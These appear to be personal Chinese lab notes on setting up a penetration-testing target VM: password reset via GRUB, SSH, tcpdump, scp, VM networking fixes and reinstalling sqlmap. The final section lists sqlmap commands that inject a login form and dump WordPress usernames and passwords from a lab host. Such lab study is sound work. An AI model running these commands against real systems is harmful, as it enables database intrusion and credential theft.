 # 一些环境问题
* 破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
* 1.在没有进入引导前光标切进去长按shift进入grub。
* 2.安装open-server 
* sudo apt-get update 
*  sudo apt-get install openssh-server  
* ps -e | grep ssh
* sudo /etc/init.d/ssh resart
* 3.开启ssh root登录。
* 4.用tcpdump
* tcpdump -D 
* tcpdump -i eth0 -w file.cap
* 5.用scp
* scp root@107.172.27.254:/home/test.txt .   //下载文件
* 
* scp test.txt root@107.172.27.254:/home  //上传文件
* 
* scp -r root@107.172.27.254:/home/test .  //下载目录
* 
* scp -r test root@107.172.27.254:/home   //上传目录
* 6.鞋机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
* 7.鞋机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
* 8.sqlmap无法更新
* 解决方法： 找到sqlmap的路径/usr/share/salmap
* 
* 执行 cd /usr/share/
* 
* 然后删掉sqlmap   rm -rf sqlmap/
* 
* 然后执行 git clone https://github.com/sqlmapproject/sqlmap
* 
* 克隆到路径即可。

# sqlmap 语句
* 开始扫描漏洞
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3
* 开始扫描数据库
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
* 指定数据库扫数据库表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
* 指定数据库表扫字段
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
* 指定字段dump表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
